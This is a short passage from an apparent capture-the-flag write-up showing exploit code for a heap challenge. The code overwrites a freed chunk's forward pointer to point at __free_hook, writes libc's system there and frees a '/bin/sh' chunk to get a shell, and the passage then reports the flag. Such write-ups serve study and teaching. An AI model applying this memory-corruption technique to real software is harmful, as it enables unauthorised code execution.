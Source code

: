 ```
# Overwrite forward pointer
editname(p64(libc.sym['__free_hook']))

# Overwrite __free_hook
newuser(b'A'*8)
newuser(p64(libc.sym['system']))

# Create chunk contains b'/bin/sh\x00'
newuser(b'/bin/sh\x00')

# Free will check if __free_hook is null
# If not ('cause we overwrited), execute the function in 
# __free_hook, which is system
deleteuser()
```

Full code: [solve.py](solve.py)

# 4. Get Flag

![get_flag.png](images/get_flag.png)

Flag is `CTF{ab7bdaa3e5ed17ed326fef624a2d95d6ea62caa3dba6d1e5493936c362eed40e}`














